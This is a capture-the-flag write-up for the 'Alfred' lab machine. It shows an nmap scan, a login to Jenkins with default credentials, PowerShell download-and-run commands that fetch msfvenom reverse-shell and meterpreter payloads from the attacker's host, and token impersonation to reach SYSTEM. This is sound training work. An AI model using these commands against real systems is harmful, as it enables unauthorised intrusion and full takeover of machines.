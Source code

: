 # Alfred

## Recon
Since as the task description highlights, the server doesn't respond to ICMP requests, we need to add `-Pn` to nmap:   
`sudo nmap -Pn -T5 -sV [IP]` which gives us the following:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-13 00:18 CEST
Nmap scan report for 10.10.253.76
Host is up (0.072s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 381.55 seconds
```

Looking at the webserver there is nothing interesting, may do a gobuster enumeration later if needed.

Looking at port 8080 however gives us a Jenkins login screen.

Let's try some weak credentials:
 - the default `admin:password` is not working
 - a second try with `admin:admin` however is a success, we don't need to brute force

## Getting a shell

Ok, so we are in jenkins, so let's find a way to gain access to a shell.

We could start by looking up exploits, but a quick look around in the project gives us this:
![image](https://github.com/dudasaron/WriteUps/assets/6893357/b0ea6bdc-7ab8-4dd6-be64-73a94ce04924)
 
 So it looks like we just need to prepare our payload and we can run it from here.

 We can see from the port scanning, that the server runs IIS, so it's safe to guess it's a windows machine, so `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[OUR IP] LPORT=4444 -f exe -o RevShell.exe`
 
 So let's start a webserver to serve the file: `python -m http.server 9000`
 
 And don't forget our listener: `nc -nvlp 4444`

After a little bit of trial and error this is what worked: 
```cmd
whoami
: Download the file
powershell -c "(New-Object System.Net.WebClient).DownloadFile(\"http://[your ip]:9000/RevShell.exe\", \"RevShell.exe\")"
: Make it executable
icacls RevShell.exe /grant Everyone:F
: And run it
start RevShell.exe 
```

And go back to the project in Jenkins and click on "Build now" from the left menu. You may check the console outpout if you open the build.

So we have a user shell on the machine: 
```cmd
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Jenkins\workspace\project>whoami
whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>
```

Only thing left for this block is to get our user flag: `more c:\Users\bruce\Desktop\user.txt`


## Upgrading to meterpreter

Let's create our pmeterpreter payload as prompted by the task description: `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o meterpreter-shell.exe`. Make sure to use a different port then your original reverse shell!

And start our python http server same as before if it's not running still.

Then download same as before: `powershell "(New-Object System.Net.WebClient).Downloadfile('http://[IP]:9000/meterpreter-shell.exe','meterpreter-shell.exe')"`

Let's not forget to start the listener in the msfconsole: 
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [your ip]
set LPORT [port set in msfvenom]
run
```

Now we can start the connection with `start meterpreter-shell.exe` on our initial reverse shell. And now we should receive the meterpreter session in msfconsole.

## Privilege escalation

First let's check our privileges: `whoami /priv`. (Either in the original command line, or start a shell in meterpreter by `shell`)
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
...
SeDebugPrivilege                Debug programs                            Enabled 
...
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
...
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
...
```
(Disabled privileges are omitted here)

What's important for us here is the `SeDebugPrivilege` and the `SeImpersonatePrivilege`.

Let's load the [incognito module](https://www.offsec.com/metasploit-unleashed/fun-incognito/) to exploit these privileges.

To check what is available, run `list_tokens -g`: 
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available
```

Let's try to with `BUILTIN\Administrators`: `impersonate_token "BUILTIN\Administrators"` and check if everything as should be with `getuid`.

To solidify our access and ensure we have not only have a privileged token, but we are running as a privileged user too, find a process and migrate to it: run `ps` to see the running processes.
```
Process List
============

 PID   PPID  Name                    Arch  Session  User                          Path
 ---   ----  ----                    ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                  x64   0
...
 1212  668   spoolsv.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
...
 2956  524   conhost.exe             x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2964  668   TrustedInstaller.exe    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 3040  668   svchost.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
```

Let's pick a process with `NT AUTHORITY\SYSTEM` as User and run `migrate [PID]`. In this case let's pick `spoolsv.exe`.

Now we can grab our root flag too: `cat c:/Windows/System32/config/root.txt` (Note that in meterpreter we need to use the unix styled forward slashes, instead of the windows styled backslashes)

## Notes

We probably should have started with meterpreter payload in the _Getting a shell_ section, but for the sake of practice we started out with a regular reverse cmd shell.

